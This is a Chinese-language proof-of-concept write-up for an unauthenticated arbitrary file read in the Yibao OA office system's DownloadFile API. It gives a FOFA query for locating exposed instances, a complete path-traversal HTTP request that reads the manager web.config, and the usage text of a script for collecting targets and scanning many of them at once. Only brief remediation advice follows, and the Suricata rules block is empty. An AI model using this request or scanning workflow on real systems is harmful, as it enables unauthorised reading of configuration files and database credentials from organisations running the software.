 ### 产品简介  
易宝OA系统是一种专门为企业和机构的日常办公工作提供服务的综合性软件平台，具有信息管理、 流程管理 、知识管理（档案和业务管理）、协同办公等多种功能。  

### 漏洞概述  
DownloadFile接口处存在任意文件读取漏洞，未授权的攻击者可以利用此漏洞读取系统内部敏感配置文件，数据库密钥凭证等，使系统处于极不安全的状态。  

### 指纹识别  
fofa: app="顶讯科技-易宝OA系统" 或 body="topvision_oaName"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E6%98%93%E5%AE%9D/yibaoOA_DownloadFile_readFile/1.png)

### 漏洞利用  
```
poc:
POST /api/files/DownloadFile HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 93

token=zxh&requestFileName=../../manager/web.config&pathType=1&startPosition=0&bufferSize=1000
```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E6%98%93%E5%AE%9D/yibaoOA_DownloadFile_readFile/2.png)

### 测试和利用脚本  
```
python3 yibaoOA_DownloadFile_readFile.py -h
usage: yibaoOA_DownloadFile_readFile.py [-h] [-t] [-r FILE] [-u URL]

### Yi Bao OA downloadfile interface has an arbitrary file reading vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python yibaoOA_DownloadFile_readFile.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python yibaoOA_DownloadFile_readFile.py -u http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```

```
